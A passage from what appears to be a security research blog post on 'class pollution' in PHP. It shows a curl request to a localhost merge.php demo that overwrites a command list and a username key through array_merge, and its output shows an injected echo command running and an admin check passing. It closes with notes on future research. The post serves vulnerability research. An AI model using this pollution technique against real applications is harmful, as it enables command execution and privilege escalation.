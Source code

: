 > Note: The parsed JSON data must be converted into an associative array, otherwise `array_merge` can't merge an array with a `stdClass` object instance.

The attacker can overwrite the `$config` associative array key's value:

```shell
└> curl -X POST http://localhost:8000/merge.php --data '{"healthCheckCommands": ["echo RCE gadget executed!"], "username": "admin"}'
[*] Before merging:
Array
(
    [healthCheckCommands] => Array
        (
            [0] => ping -c 1 127.0.0.1
        )

    [username] => not_admin
)
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.024 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.024/0.024/0.024/0.000 ms
[-] Is NOT admin

[*] After merging:
Array
(
    [healthCheckCommands] => Array
        (
            [0] => echo RCE gadget executed!
        )

    [username] => admin
)
RCE gadget executed!
[+] Is admin
```

Therefore, we can pollute (overwrite) an **object**'s properties or an **associative array**'s keys.

## Conclusion

Unfortunately, I couldn't find any real-world cases where the polluted object's properties or associative array's keys is flow to an impactful gadget. As well as there are a lot of gadgets and merging, which makes this process much harder. Luckily, this kind of "object properties pollution" and "associative array keys pollution" could still be useful if they flow to an impactful gadget.

In the future, hopefully we can find a way to escape the object context and pollute other classes and methods, as well as find an exploit that can lead to a full-blown RCE! Moreover, we don't want to research in class pollution in Python, Ruby, and PHP only, we should also research **this vulnerability class in other programming languages** that support OOP, such as Golang, Perl, and more.
